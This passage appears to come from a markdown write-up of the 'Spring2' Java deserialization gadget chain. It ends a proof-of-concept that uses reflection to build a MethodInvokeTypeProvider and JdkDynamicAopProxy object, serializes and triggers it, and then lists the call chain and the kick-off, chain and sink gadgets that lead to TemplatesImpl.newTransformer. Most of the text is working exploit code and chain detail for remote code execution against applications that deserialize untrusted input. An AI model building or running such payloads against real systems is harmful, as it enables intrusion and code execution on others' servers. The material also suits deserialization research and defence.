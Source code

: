 ```java
        // Initialize MethodInvokeTypeProvider
        Class<?> clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Cons = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // Since the ReflectionUtils.invokeMethod(method, provider.getType()) will be called immediately when the MethodInvokeTypeProvider is initialized
        // So when initializing, we can just write it in the method, methodName using reflection.
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setFieldValue(objects, "methodName", "newTransformer");

        // Generate exp
        String exp = serialize(objects);
        System.out.println(exp);
        // Trigger exp
        unserialize(exp);
    }
}
```

<div align=center><img src="./images/3.png"></div>

# Call chain
```java
SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
	    AnnotationInvocationHandler.invoke()
		    ReflectionUtils.invokeMethod()
			    Templates(Proxy).newTransformer()
				    JdkDynamicAopProxy.invoke()
                        AopUtils.invokeJoinpointUsingReflection()
						    Tem
platesImpl.newTransformer()
```

# Summarize
## Usage Instructions
Use `JdkDynamicAopProxy` to replace `ObjectFactoryDelegatingInvocationHandler` and combine `Spring1` chain to complete the final call chain.

## Gadget
 - kick-off gadget: org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider#readObject
 - sink gadget: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer
 - chain gadget: org.springframework.aop.framework.JdkDynamicAopProxy#invoke